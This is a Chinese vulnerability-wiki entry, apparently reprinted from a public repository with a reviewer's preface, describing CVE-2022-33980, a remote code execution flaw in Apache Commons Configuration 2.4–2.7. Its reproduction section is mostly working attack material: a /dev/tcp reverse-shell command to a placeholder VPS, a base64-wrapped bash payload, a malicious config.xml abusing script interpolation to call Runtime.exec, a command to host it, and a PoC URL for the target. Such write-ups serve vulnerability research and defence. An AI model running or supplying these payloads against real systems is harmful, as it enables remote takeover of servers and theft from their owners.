

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：2.4–2.7; application must resolve attacker-controlled configuration with script lookup and script engine; these runtime conditions insufficiently stated

代码与实验材料：XML payload and custom /Url?url=&amp;data= endpoint; no application source, dependency manifest or success criterion in text

来源证据范围：Upstream repository attribution only, no original security advisory or lab link

- **事实待核（1）**：Custom endpoint and script-engine/JDK prerequisites unstated, generic request is not universal product exploit。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：No remediation/fixed-version section; image-only proof。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Apache Commons Configuration 远程命令执行漏洞 CVE-2022-33980

## 漏洞描述

Apache Commons Configuration 是 Apache 基金会下的一个开源项目组件。它提供了一种通用的方式，让 Java 开发者可以使用统一的接口读取不同类型的配置文件。

该漏洞是由于 Apache Commons Configuration 提供的 Configuration 变量解释功能存在缺陷，攻击者可利用该漏洞在特定情况下，构造恶意数据执行远程代码。

## 漏洞影响

```
2.4 <= Apache Commons Configuration <=2.7
```

## 漏洞复现

java payload：

```
# bash -i >& /dev/tcp/your-vps-ip/port 0>&1
bash -c {echo,<YOUR_PAYLOAD_HERE>}|{base64,-d}|{bash,-i}
```

config.xml：

```
<?xml version="1.0" encoding="ISO-8859-1" ?>
<configuration>
        <path>${script:js:java.lang.Runtime.getRuntime().exec("bash -c {echo,<YOUR_PAYLOAD_HERE>}|{base64,-d}|{bash,-i}")}</path>
</configuration>
```

vps 开启 8888 端口托管 config.xml：

```
python -m http.server 8888
```

poc：

```
http://vuln-ip/Url?url=http://your-vps-ip:8888/config.xml&data=path
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
